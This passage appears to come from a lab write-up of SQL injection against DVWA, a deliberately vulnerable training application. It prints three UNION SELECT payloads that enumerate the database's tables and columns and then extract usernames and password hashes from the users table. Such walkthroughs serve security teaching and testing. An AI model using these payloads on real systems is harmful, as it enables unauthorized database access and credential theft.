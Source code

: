 Next, the tester targeted the table names from the dvwa database to figure out that there was a users table to target.
```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'dvwa' #
```
![](/assets/sql/table_name.png)  

Next, the tester figured out  the column names from the dvwa users table.

```bash
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_schema = 'dvwa' AND table_name = 'users' #
```
As a result, the tester retrieved the username and password from the data base.

```bash
' UNION SELECT user, password FROM dvwa.users #

```
![](/assets/sql/extract.png)  
